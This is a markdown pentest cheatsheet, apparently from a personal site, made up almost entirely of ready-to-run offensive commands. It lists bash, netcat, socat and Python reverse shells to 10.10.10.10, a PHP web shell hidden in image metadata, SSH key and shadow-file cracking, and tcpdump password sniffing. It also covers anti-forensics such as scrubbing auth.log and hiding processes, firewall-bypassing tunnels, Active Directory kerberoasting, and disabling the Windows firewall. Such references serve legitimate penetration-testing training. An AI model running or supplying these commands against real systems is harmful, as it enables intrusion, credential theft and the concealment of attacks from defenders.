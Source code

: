 ```yaml
---
layout: article
title: Pentest Cheatsheet
aside:
  toc: true
---
```


## PENTEST CHEATSHEET
### Linux

Find user owned files
~~~
find / -user $(whoami) 2>/dev/null | egrep -v '(/proc)'
~~~

Find writeable files
~~~
find / -writeable 2>/dev/null | egrep -v '(/proc|/run|/dev)'
~~~

Find readable files with following extensions
~~~
find / -readable 2>/dev/null | egrep '(\.key$|\.pub$|\.bak$|\.crt$|\.ca$|^id_rsa)'
~~~

Bash reverse shell
~~~
bash -i >& /dev/tcp/10.10.10.10/444 0>&1
~~~

Netcat reverse shell
~~~
nc -e /bin/bash 10.10.10.10 444
nc -e /bin.sh 10.10.10.10 444
~~~

Socat reverse shell
~~~
socat file:`tty`,raw,echo=0 tcp-listen:444 #listener
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:444 #payload
~~~

Python reverse shell
~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
~~~

Upgrade shell with Python
~~~
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo
F+G+ENTER
export TERM=xterm
~~~

Fix terminal
~~~
stty -a
stty cols rows
~~~

Find files that aren't installed by the system
~~~
for i in $(ls $(pwd)/*); do dpkg --search $i 1>/dev/null; done
~~~

Inject PHP into image
~~~
exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
exiftool “-comment<=back.php” back.png
~~~

Cracking SSH
~~~
ssh2john id_rsa > id_rsa.hash
john --wordlist=wordlist.txt id_rsa.hash
~~~

Cracking /etc/shadow
~~~
unshadow passwd.hashes shadow.hashes > unshadowed_passwords.txt
john --wordlist=wordlist.txt passwords.txt
~~~

WFUZZ
~~~
wfuzz  -w /usr/share/wordlists/dirb/common.txt --hc 404,500 -u http://10.10.10.168:8080/
~~~

### Hiding tracks

Hiding bash history
~~~
unset HISTFILE
~~~

Commit 'suicide' when exiting shell
~~~
kill -9 $$
~~~

Hide commands
~~~
exec -a syslogd <command here>
~~~

Hide from /var/log/utmp, `w`, `who`, `.profile`, `.bash_profile`, `known_hosts`.
~~~
ssh -o UserKnownHostsFile=/dev/null -T user@host.org "bash -i"
~~~

SSH tunnel out
~~~
# bypass local firewalls or IP filtering
# connect to localhost:31337 and get connected to 1.2.4.3:80 appearing as user@host.org
ssh -g -L31337:1.2.3.4:80 user@host.org
~~~

SSH tunnel in
~~~
# access private machine
# connect to host.org:31338 get forwarded to 10.10.10.10:80 via localhost
ssh -o ExitOnForwardFailure=yes -g -R31338:10.10.10.10:80 user@host.org
~~~

SSH socks4/5 IN
~~~
# reverse dynamic forwarding
# configure host.org:1080 as SOCKS4/5 proxy and connect to any internal address/port where the system SSH was executed from has access to
ssh -R 1080 user@host.org
~~~

Monitor new TCP connections
~~~
tcpdump -n "tcp[tcpflags] == tcp-syn"
~~~

Other TCPDUMP
~~~
tcpdump -i eth0 'port 80'
tcpdump -i eth0 [udp | proto 17]
tcpdump -vv -x -X -s 1500 -i eth0 'port 80'
tcpdump -i eth0 host 10.10.10.10
tcpdump -i eth0 dst 10.10.10.10
tcpdump -i eth0 -n icmp
tcpdump dst port 123
tcpdump port http or port ftp or port smtp or port imap or port pop3 or port telnet -l -A | egrep -i -B5 'pass=|pwd=|log=|login=|user=|username=|pw=|passw=|passwd=|password=|pass:|user:|username:|password:|login:|pass |user '
~~~

Clear logfile
~~~
cd /dev/shm
grep -v '10\.10\.10\.10' /var/log/auth.log >a.log; cat a.log >/var/log/auth.log; rm -f a.log
~~~

### Windows

SMB
~~~
smbclient -L //10.10.10.10 #list shares
smbclient -U ''
smbmap -H 10.10.10.10 #list shares
smbmap -R [share] -H 10.10.10.10 #list contents of share
smbmap -d domain -u user -p password -H 10.10.10.10 #login with user
crackmapexec smb 10.10.10.10 --shares -u '' -p ''
~~~

GPP groups.xml
~~~
gpp-decrypt hash
~~~

Active Directory: impacket
~~~
GetADUsers.py -all domain/user -dc-ip 10.10.10.10
GetUserSPN.py -request[-user] [user] -dc-ip 10.10.10.10 domain/user #kerberoast
~~~

Active Directory
~~~
rpcclient 10.10.10.10
rpcclient 10.10.10.10 -U ''
enumdomusers
~~~

Kerberos
~~~
kerbrute userenum --dc 10.10.10.10 -d domain -o outfile.out users.lst
~~~

Create session with credentials for remote access only
~~~
runas /netonly /user:domain\username cmd
~~~

Shell via SMB: psexec.py
~~~
psexec.py domain/user@10.10.10.10
~~~

Metasploit windows meterpreter session
~~~
execute -f cmd.exe -c -H
shell
netsh firewall show opmode
netsh advfirewall set allprofiles state off
getsystem
~~~